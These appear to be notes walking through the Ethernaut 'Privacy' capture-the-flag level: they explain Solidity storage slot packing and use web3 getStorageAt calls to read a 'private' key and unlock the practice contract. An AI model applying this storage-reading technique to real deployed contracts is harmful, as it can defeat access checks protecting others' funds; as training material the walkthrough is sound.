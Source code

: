 # Privacy

> Everything you use in a smart contract is publicly visible, even local variables and state variables marked "private".

#### How variables store in the storage layout

-   each slot store up to 32 bytes
    > The slots are 32 bytes long.
    > 1 byte = 8 bits = 4 nibbles = 4 hexadecimal digits.
    > In practice, when using e.g getStorageAt we get string hashes of length 64 + 2 ('0x') = 66.
-   stores only variables, not constant
-   variables store in slot from right to left
-   if the size of the variable does not fit for the remaining size of the slot, it will goes in the next new slot
-   boolean takes only 1 bit (only 0 or 1)
-   array always store in the new slot

#### Attack

| variables                                             | storage slots |
| ----------------------------------------------------- | ------------- |
| bool public locked = true                             | slot 0        |
| uint256 public ID = block.timestamp;                  | slot 1        |
| uint8 private flattening = 10;                        | slot 2        |
| uint8 private denomination = 255;                     | slot 2        |
| uint16 private awkwardness = uint16(block.timestamp); | slot 2        |
| bytes32[3] private data;                              | slot 3-5      |

```javascript
await web3.eth.getStorageAt(contract.address, 0)
;("0x0000000000000000000000000000000000000000000000000000000000000001")

await web3.eth.getStorageAt(contract.address, 1)
;("0x0000000000000000000000000000000000000000000000000000000063884298")

await web3.eth.getStorageAt(contract.address, 2)
;("0x000000000000000000000000000000000000000000000000000000004298ff0a")
0x 00000000000000000000000000000000000000000000000000000000 4298 ff 0a
  └─────────────────────────UNUSED─────────────────────────┘    │  │  │
                                             uint16 awkwardness ┘  │  │
                                                 uint8 denomination┘  │
                                                      uint8 flattening┘

await web3.eth.getStorageAt(contract.address, 3)
;("0xb53b431c4438489a546fb7f49ebacc54e14c5fe3c2283132ebbc3ae2fd9702d5")
await web3.eth.getStorageAt(contract.address, 4)
;("0xe90d32f3d72b7fdc47dd5a31eba580b869545cea6f368ba3ff7c802308ac79ae")
await web3.eth.getStorageAt(contract.address, 5)
;("0x9f3fc5a2d818e0922c65f48a5d510f8ae172567d8e0fd7224f3ec46cab706e7a")
```

need data[2] which is in the slot 5 to unlock but need to cast down to bytes16

```solidity
    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }
```

---

-   https://ardislu.dev/ethernaut/12
-   https://www.goodbytes.be/blog/article/ethernaut-walkthrough-level-12-privacy
